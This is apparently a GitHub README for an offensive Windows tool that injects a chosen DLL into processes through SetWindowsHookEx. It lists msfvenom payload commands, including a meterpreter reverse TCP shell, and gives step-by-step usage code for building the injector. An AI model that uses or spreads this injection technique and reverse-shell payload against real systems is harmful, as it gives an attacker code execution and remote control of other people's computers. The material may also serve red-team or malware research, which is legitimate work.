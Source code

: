 # Global-SetWindowsHookEx-Injector
main.cpp: Loads test.dll into a subset of processes that have user32.dll loaded </br> 
dllmain.cpp: Launches a thread that spawns a messagebox whenever it is loaded </br>
## Payloads that have been tested with this project
`msfvenom -f c -p windows/x64/messagebox EXITFUNC=thread TEXT="Hello, from urmom"` </br>
`msfvenom -p windows/x64/meterpreter_reverse_tcp EXITFUNC=thread RHOST=127.0.0.1 RPORT=4444 -f c -o file.txt`
## Usage
1. Just add this to your dll:
extern "C" __declspec(dllexport) int NextHook(int code, WPARAM wParam, LPARAM lParam) {
	return CallNextHookEx(NULL, code, wParam, lParam);
}

2. Edit your dll name in hookloader/main.cpp:
HMODULE dll = LoadLibraryEx(L"test.dll", NULL, DONT_RESOLVE_DLL_REFERENCES); //<-- DLL name

3. Compile & done

![](https://github.com/Msfv3n0m/Global-SetWindowsHookEx-Injector/blob/master/loaded_dll.PNG)
## Credit
This project uses [this](https://www.bing.com/search?pglt=2081&q=mingw.threads.h+github&cvid=eda2595c8617405babee903277a23f89&aqs=edge.0.69i59l2j69i57j69i59j69i58j69i60j69i64.1251j0j1&FORM=ANNTA1&PC=U531) library to create a thread to launch the messagebox without interrupting the programs
